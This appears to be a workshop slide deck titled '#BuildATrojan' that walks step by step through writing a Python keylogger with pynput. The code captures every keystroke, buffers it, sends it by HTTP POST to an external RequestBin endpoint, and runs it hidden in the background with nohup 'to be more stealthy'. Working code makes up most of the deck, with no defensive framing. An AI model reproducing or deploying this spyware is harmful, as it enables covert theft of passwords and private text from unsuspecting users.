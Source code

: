 class: center, middle

# trojan.saurabhn.com

---
class: center, middle

# #BuildATrojan

---

# Here's the Agenda

1. History
2. The virus
3. Building one

---
# History

.center[![Trojan](https://allthatsinteresting.com/wordpress/wp-content/uploads/2021/12/still-from-troy.png)]

---
class: center, middle
# Trojan Virus

.center[![Trojan](https://autodesk.blogs.com/.a/6a00d8341bfd0c53ef01b8d29a32e9970c-pi)]

---
class: center, middle
# Building a Trojan

---
class: center, middle

# Prerequisites
```bash
pip install pynput
```

---
### Step 1: Lets print all keystrokes to the console


```python
from pynput.keyboard import Key, Listener

def on_press(key):
    print(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 2: Lets print a line to the console when a key is pressed

```python
from pynput.keyboard import Listener
keys = ''
def send_keys():
    global keys
    print(keys)
    keys = ''

def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---

### Step 3: Lets create a request bin

- Open [Request bin](https://requestbin.net/)

- Click **Create a RequestBin** 
---
### Step 4: Sending data to the bin
```python
from pynput.keyboard import Key, Listener
import requests
keys = ''
request_bin_url = 'https://{request bin url}'
def send_keys():
    global keys
    print(keys)
    requests.post(request_bin_url, data=keys)
    keys = ''
def on_press(key):
    global keys
    str_key = str(key)
    if str_key == "Key.tab":
        str_key = '\t'
    elif str_key == "Key.enter":
        str_key = '\n'
    elif str_key == "Key.space":
        str_key = ' '
    elif str_key == "Key.backspace":
        str_key = ' bspace '
    elif "Key" in str_key:
        str_key = str_key.replace("Key.", "")
        str_key = f" {str_key} "
    keys += str_key.strip('\'')
    if len(keys) >= 20:
        send_keys()

with Listener(on_press=on_press) as listener:
    listener.join()
```

---
### Step 5: Lets make it a bit more stealthy

```bash
nohup python3 send_line.py &
```

---
class: center, middle

# Any questions?
